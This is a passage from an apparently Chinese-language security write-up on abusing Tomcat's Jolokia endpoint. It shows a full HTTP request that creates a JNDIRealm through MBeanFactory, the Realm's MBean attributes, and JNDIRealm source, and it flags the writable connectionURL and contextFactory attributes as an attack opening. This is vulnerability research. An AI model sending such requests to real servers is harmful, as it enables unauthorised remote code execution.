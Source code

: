 这里只传入了 parent。利用 Burpsuite 先创建这个 Realm。


```bash
POST /jolokia/ HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 133
{
    "type": "EXEC",
    "mbean": "Tomcat:type=MBeanFactory",
    "operation": "createJNDIRealm",
    "arguments": ["Tomcat:type=Engine"]
}
```

创建成功后，我们查看这个 Realm 的 MBean 信息：


```java
realmPath=/realm0,type=Realm: {
    op: {...},
    attr: {
        userPassword: {},
        ...
        connectionURL: {
            rw: true,
            type: "java.lang.String",
            desc: "The connection URL for the server we will contact"
        },
        roleNested: {},
        userSearch: {},
        connectionTimeout: {},
        authentication: {},
        contextFactory: {
            rw: true,
            type: "java.lang.String",
            desc: "The JNDI context factory for this Realm"
        },
        userPattern: {},
        ...
    },
    class: "org.apache.tomcat.util.modeler.BaseModelMBean",
    desc: "Implementation of Realm that works with a directory server a..."
}
```

注意到两个有意思的属性，connectionURL 和 contextFactory。查看 JNDIRealm 的源码：


```java
FILE: 

   protected Hashtable<String, String> getDirectoryContextEnvironment() {
        Hashtable<String, String> env = new Hashtable();
        if (this.containerLog.isDebugEnabled() && this.connectionAttempt == 0) {
            this.containerLog.debug("Connecting to URL " + this.connectionURL);
        } else if (this.containerLog.isDebugEnabled() && this.connectionAttempt > 0) {
            this.containerLog.debug("Connecting to URL " + this.alternateURL);
        }
        env.put("java.naming.factory.initial", this.contextFactory);
    if (this.connectionName != null) {
        env.put("java.naming.security.principal", this.connectionName);
    }

    if (this.connectionPassword != null) {
        env.put("java.naming.security.credentials", this.connectionPassword);
    }
```